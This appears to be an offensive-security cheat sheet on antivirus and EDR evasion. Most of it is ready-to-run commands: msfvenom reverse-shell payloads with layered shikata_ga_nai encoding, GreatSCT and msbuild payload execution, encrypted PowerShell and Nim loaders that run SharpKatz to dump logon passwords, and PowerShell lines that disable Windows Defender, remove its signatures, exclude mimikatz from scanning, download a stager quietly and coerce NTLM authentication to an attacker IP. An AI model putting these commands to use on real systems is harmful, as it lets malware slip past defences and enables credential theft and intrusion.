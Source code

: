 # AV Evasion

* [https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/](https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/)
* [https://codeby.net/threads/meterpreter-snova-v-dele-100-fud-with-metasploit-5.66730/](https://codeby.net/threads/meterpreter-snova-v-dele-100-fud-with-metasploit-5.66730/)
* [https://github.com/phackt/stager.dll](https://github.com/phackt/stager.dll)
* [https://hausec.com/2019/02/09/suck-it-windows-defender/](https://hausec.com/2019/02/09/suck-it-windows-defender/)
* [https://medium.com/securebit/bypassing-av-through-metasploit-loader-32-bit-6d62930151ad](https://medium.com/securebit/bypassing-av-through-metasploit-loader-32-bit-6d62930151ad)
* [https://medium.com/securebit/bypassing-av-through-metasploit-loader-64-bit-9abe55e3e0c8](https://medium.com/securebit/bypassing-av-through-metasploit-loader-64-bit-9abe55e3e0c8)
* [https://xakep.ru/2020/12/23/shikata-ga-nai/](https://xakep.ru/2020/12/23/shikata-ga-nai/)
* [https://infosecwriteups.com/evade-avs-edr-with-shellcode-injection-159dde4dba1a?gi=84db9a8c5c5f](https://infosecwriteups.com/evade-avs-edr-with-shellcode-injection-159dde4dba1a?gi=84db9a8c5c5f)



## msfvenom

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -f exe -o rev.exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -e x86/shikata_ga_nai -i 9 -f raw | msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 11 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 6 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -k -f exe -o met.exe
```




## Veil-Evasion

Hyperion + Pescramble

```
$ wine hyperion.exe input.exe output.exe
$ wine PEScrambler.exe -i input.exe -o output.exe
```




## Shelter

* [https://www.shellterproject.com/](https://www.shellterproject.com/)




## GreatSCT

Install and generate a payload:

```
$ git clone https://github.com/GreatSCT/GreatSCT ~/tools/GreatSCT
$ cd ~/tools/GreatSCT/setup
$ ./setup.sh
$ cd .. && ./GreatSCT.py
...generate a payload...
$ ls -la /usr/share/greatsct-output/handlers/payload.{rc,xml}

$ msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
```

Exec with `msbuild.exe` and get a shell:

```
PS > cmd /c C:\Windows\Microsoft.NET\framework\v4.0.30319\msbuild.exe payload.xml
```

* [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
* [https://www.youtube.com/watch?v=krC5j1Ab44I&t=3730s](https://www.youtube.com/watch?v=krC5j1Ab44I&t=3730s)




## Invoke-Obfuscation

* [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
* [https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide](https://www.danielbohannon.com/blog-1/2017/12/2/the-invoke-obfuscation-usage-guide)




## Out-EncryptedScript.ps1

* [https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1)
* [https://powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/](https://powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/)

```
PS > Out-EncryptedScript .\script.ps1 $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) s4lt -FilePath .\evil.ps1
PS > [string] $cmd = gc .\evil
PS > $dec = de "Passw0rd!" s4lt
PS > Invoke-Expression $dec
```




## Ebowla

```
$ git clone https://github.com/Genetic-Malware/Ebowla ~/tools/Ebowla && cd ~/tools/Ebowla
$ sudo apt install golang mingw-w64 wine python-dev -y
$ sudo python -m pip install configobj pyparsing pycrypto pyinstaller
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.13.37 LPORT=1337 --platform win -f exe -a x64 -o rev.exe
$ vi genetic.config
...Edit output_type, payload_type, clean_output, [[ENV_VAR]]...
$ python ebowla.py rev.exe genetic.config && rm rev.exe
$ ./build_x64_go.sh output/go_symmetric_rev.exe.go ebowla-rev.exe [--hidden] && rm output/go_symmetric_rev.exe.go
[+] output/ebowla-rev.exe
```




## Nim



### Install

Windows:

* [https://nim-lang.org/install_windows.html](https://nim-lang.org/install_windows.html)
* [https://git-scm.com/download/win](https://git-scm.com/download/win)

Linux:

```
$ sudo apt install mingw-w64 -y
$ curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```



### Execute C# Assemblies

* [https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/execute_assembly_bin.nim)
* [https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/)
* [https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim](https://github.com/S3cur3Th1sSh1t/Creds/tree/master/nim)

Dependencies:

```
Nim > nimble install winim nimcrypto
```

Compile on Windows:

```
Cmd > nim c .\encrypt_assembly.nim
Cmd > nim c .\encrypted_assembly_loader.nim
```

Compile on Linux:

```
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc encrypt_assembly.nim
$ nim c --cpu:amd64 --os:windows --gcc.exe:x86_64-w64-mingw32-gcc --gcc.linkerexe:x86_64-w64-mingw32-gcc encrypted_assembly_loader.nim
```

Run:

```
Nim > .\encrypt_assembly.exe Passw0rd! SharpKatz.exe b64.txt
Nim > .\encrypted_assembly_loader.exe Passw0rd! b64.txt --Command logonpasswords
```




## Defender

* [https://github.com/swagkarna/Defeat-Defender/blob/main/Defeat-Defender.bat](https://github.com/swagkarna/Defeat-Defender/blob/main/Defeat-Defender.bat)

Disable real-time protection (proactive):

```
PS > Set-MpPreference -DisableRealTimeMonitoring $true
```

Disable scanning all downloaded files and attachments, disable AMSI (reactive):

```
PS > Set-MpPreference -DisableIOAVProtection $true
```

Remove signatures (if Internet connection is present, they will be downloaded again):

```
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -RemoveDefinitions -All
Or
Cmd > "%PROGRAMFILES%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

Add path to exclusions:

```
PS > $mimi = "C:\Users\snovvcrash\music\mimi\x64\mimikatz.exe"
PS > Add-MpPreference -ExclusionPath $mimi -AttackSurfaceReductionOnlyExclusions $mimi
```

Download stager without triggering Defender to scan it:

```
PS > "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -Url http://127.0.0.1/met.exe -Path C:\Users\snovvcrash\music\met.exe
```

Coerce the victim machine to reach the attacker (to steal Net-NTLM):

```
Cmd > C:\PROGRA~1\WINDOW~1\MpCmdRun.exe -Scan -ScanType 3 -File '\\10.10.13.37\share\file'
```




## Obfuscate Mimikatz

* [https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/](https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/)
* [https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/)
